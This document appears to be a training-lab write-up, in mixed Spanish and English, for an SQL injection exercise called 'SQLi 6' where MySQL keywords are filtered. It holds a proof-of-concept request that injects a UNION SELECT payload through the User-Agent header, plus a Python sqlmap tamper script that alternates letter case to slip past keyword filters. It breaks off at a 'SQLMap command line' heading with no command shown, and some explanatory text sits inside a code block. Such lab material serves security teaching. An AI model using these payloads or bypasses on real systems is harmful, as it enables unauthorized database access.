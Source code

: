 ### SQLi 6

Las palabras reservadas de MySQL han sido filtradas. Usar **El caso RaNDom** no ayuda, como puede tener, por ejemplo, algo así como _InfoRMaTIon-ScheMa_ que se convertirá en _InfoRMaTI-ScheMa_, ya que _on_ o _ON_ es una palabra reservada válida.

PoC:

```bash

GET / HTTP/1.1
Host: 6.sqli.labs
User-Agent: ' UNiOn seLect @@versiOn;#

The only way to get around this kind of filtering during the exploitation automation phase is to use DifFeReNt CaSe for every letter
You have to write a simple tampering script:
```

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces each keyword with a CaMeLcAsE VeRsIoN of it.

    >>> tamper('INSERT')
    'InSeRt'
    """

    ret_val = ""

    if payload:
        for i in range(len(payload)):
            if i % 2 == 0:
                # We cannot break 0x12345
                if not ((payload[i] == 'x') and (payload[i-1] == '0')):
                    ret_val += payload[i].upper()
                else:
                    ret_val += payload[i]
            else:
                ret_val += payload[i].lower()
    return ret_val
```

SQLMap command line:
